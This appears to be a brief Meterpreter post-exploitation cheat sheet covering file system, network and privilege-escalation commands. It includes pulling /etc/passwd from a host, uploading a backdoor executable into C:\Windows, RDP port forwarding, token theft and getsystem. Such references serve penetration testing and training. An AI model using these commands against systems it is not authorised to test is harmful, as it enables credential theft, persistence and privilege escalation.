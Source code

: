 ### File System
```bash
# Current directory
pwd

# List files
ls
dir

# Change directory
cd /tmp

# Download file
download /etc/passwd /tmp/passwd

# Upload file
upload /tmp/backdoor.exe C:\\Windows\\backdoor.exe

# Search files
search -f *.txt
```

### Network
```bash
# Network interfaces
ifconfig
ipconfig

# ARP table
arp

# Routing table
route

# Port forwarding
portfwd add -l 1234 -p 3389 -r 192.168.1.100
```

### Privilege Escalation
```bash
# Get system (Windows)
getsystem

# Steal token
steal_token 1234

# Load modules
load priv
load incognito

# Enumerate privileges
enum_privs
```
